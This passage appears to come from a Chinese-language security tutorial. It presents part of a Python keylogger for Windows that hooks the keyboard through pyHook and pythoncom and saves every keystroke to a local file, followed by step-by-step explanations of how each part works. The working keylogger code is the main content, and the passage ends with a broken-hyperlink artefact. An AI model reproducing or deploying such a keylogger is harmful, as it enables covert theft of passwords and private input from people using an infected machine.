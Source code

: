 ```
        keys=' < Enter > ' 
    elif event.Ascii==8:
        keys=' <BACK SPACE> '

    else:
        keys=chr(event.Ascii)

    store = store + keys #at the end we append the ascii keys into store variable and finally write them in keylogs text file

    fp=open("keylogs.txt","w")
    fp.write(store)
    fp.close()

    return True # after intercepting the keyboard we have to return a True value otherwise we will simply disable the keyboard functionality

store = '' # string where we will store all the pressed keys

#Next we create and register a hook manager and once the user hit any keyboard button, keypressed 
#func will be executed and that action will be store in event

obj = pyHook.HookManager()
obj.KeyDown = keypressed

obj.HookKeyboard() #start the hooking loop and pump out the messages
pythoncom.PumpMessages() #remember that per pyHook documentation we must have a Windows message pump
```

让我们来看看脚本中的步骤：

1.  导入`pyHook`和`pythoncom`库，如前面的脚本所示，`import pythoncom, pyHook`。

`pyHook`库将处理与 Windows 函数`SetWindowsHookExA`的低级通信。此函数将为我们安装一个钩子，以监控键盘事件。

1.  导入`pythoncom`库，它将为我们处理 Windows 消息泵。

1.  定义一个字符串`store`，这是我们将存储所有按下的键的地方。

1.  创建并注册一个`HookManager`。一旦用户按下任意键，`keypressed()`函数将被执行，且该操作将被存储在事件中。

1.  启动钩子循环并提取消息。

请记住，根据`pyHook`文档，我们必须在这里有一个 Windows 消息泵。

1.  由于`Enter`和`Backspace`按钮未正确处理，我们需要静态配置它们的值。

请记住，我们可以通过它们的 ASCII 值来判断用户输入的是*Enter*还是*Backspace*。

1.  将 ASCII 键值追加到 `store` 变量中，最后将它们写入 `keylogs.txt` 文件。我们可以选择追加数据和文本文件，而不是覆盖它们，但建议使用写入技术而不是追加操作，以确保更高的稳定性。

1.  在拦截键盘事件后，我们需要返回一个 `True` 值；否则，我们将禁用键盘功能。

那么，让我们通过运行该模块做一个快速测试。我们将创建一个新的文本文件来进行测试。输入错误信息：Error! Hyperlink reference not valid.
